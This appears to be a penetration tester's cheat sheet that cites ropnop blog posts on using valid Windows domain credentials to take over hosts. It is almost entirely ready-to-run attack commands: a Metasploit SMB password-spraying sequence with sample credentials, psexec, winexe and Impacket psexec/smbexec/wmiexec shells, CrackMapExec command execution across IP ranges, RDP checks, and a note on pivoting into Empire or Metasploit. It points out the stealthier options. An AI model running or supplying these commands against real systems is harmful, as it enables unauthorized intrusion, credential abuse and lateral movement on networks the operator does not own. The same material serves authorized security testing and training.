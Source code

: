 --- Source ---

https://blog.ropnop.com/using-credentials-to-own-windows-boxes/

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/

## ------ From Kali ------ ##

### --- Spray and Pray--- ###

```
msf > use auxiliary/scanner/smb/smb_login  
msf auxiliary(smb_login) > set SMBDomain CSCOU  
SMBDOMAIN => CSCOU  
msf auxiliary(smb_login) > set SMBUser jarrieta  
SMBUser => jarrieta  
msf auxiliary(smb_login) > set SMBPass nastyCutt3r  
SMBPass => nastyCutt3r  
msf auxiliary(smb_login) > services -p 445 -R  
msf auxiliary(smb_login) > run
```
*Note: Any succesfull logins will be stored in the msf database. View them with:* ```creds```

### --- CrackMapExec --- ###

Testing credentials and launching attacks on a large number of hosts
```python crackmapexec.py $ip_or_range -d $domain -u $user -p $password```


### --- Metasploit psexec --- ###

```use exploit windows/smb/psexec```

NOTE: ```auxiliary/admin/smb/psexec_command``` if you want to just run a single command. This module can also take a range of RHOSTS


### --- Winexe --- ###

An old *nix tool to execute Windows commands remotely. Built in to Kali or available here.
You can execute a single command or drop right into a command prompt:

```winexe -U $domain/$user%$password //$host_ip cmd.exe```


### --- psexec.py --- ###

Impacket

NOTE: Use clone in ```/opt```
```python psexec.py $domain/$user:$password@ip_address```


### --- smbexec --- ###
Impacket

This one is a bit "stealthier" as it doesn't drop a binary on the target system.
Commands and output are asynchronous

```python smbexec.py $domain/$user:$password@ip_address```


### --- wmiexec.py --- ###

Impacket

Under the hood this one uses Windows Management Instrumentation (WMI) to launch a semi-interactive shell.

```python wmiexec.py $domain/$user:$password@ip_address```


### --- CrackMapExec --- ###

You can also use CrackMapExec to execute commands on hosts by passing it the "-x" parameter.
Since it's built on Impacket's libraries, it's basically doing the exact same thing as wmiexec.py.
But let's you do it across a range of IPs

```python crackmapexec.py $ip_address -d $domain -u $user -p $pass -x $cmd```


### --- Remote Desktop/rdp_check --- ###

Impacket

```python rdp_check.py $domain/$user:$pass@$ip_address```

NOTE: Use these to get code execution and elevate into Empire/MSF



